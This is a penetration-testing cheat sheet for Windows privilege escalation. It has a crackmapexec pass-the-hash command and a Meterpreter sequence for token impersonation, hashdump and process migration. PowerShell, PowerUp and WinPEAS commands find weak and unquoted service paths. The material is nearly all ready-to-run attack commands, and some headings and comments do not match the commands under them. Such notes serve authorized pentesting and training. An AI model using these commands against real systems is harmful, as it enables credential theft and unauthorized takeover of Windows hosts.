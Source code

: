 ```
crackmapexec smb <TARGET_IP> -u Administrator -H "<NTLM_HASH>" -x "whoami"
```

### **Token Impersonation**

```bash
# Privilege Escalation - Meterpreter
getuid
getprivs
hashdump
load incognito
list_tokens -u
impersonate_token "ATTACKDEFENSE\Administrator"
getuid
ps
migrate <PID>
hashdump
```

#### Relaying

```powershell
##PowerShell
#Get services with unquoted paths and a space in their name
Get-WmiObject -Class win32_service | select pathname

#Check permissions info regarding a service
sc.exe sdshow <service_name>

##PowerUp
#Run all PrivEsc checks
Invoke-AllChecks

##PrivEsc
#Run all PrivEsc checks
Invoke-PrivEscCheck

##WinPeas
#Run all PrivEsc checks
winPEASx64.exe
```

### Unquoted Service Path

<pre class="language-powershell"><code class="lang-powershell"><strong>##PowerUp
</strong>#List path for windows services:
Get-WmiObject -Class win32_service | select pathname
#Get services with unquoted paths and a space in their name:
Get-ServiceUnquoted -Verbose
#Get services where the current user can write to its binary path and change arguments to the binary:
Get-ModifiableServiceFile -Verbose
#Get the services whose configuration current user can be modified:
Get-ModifiableServiceFile -Verbose
</code></pre>
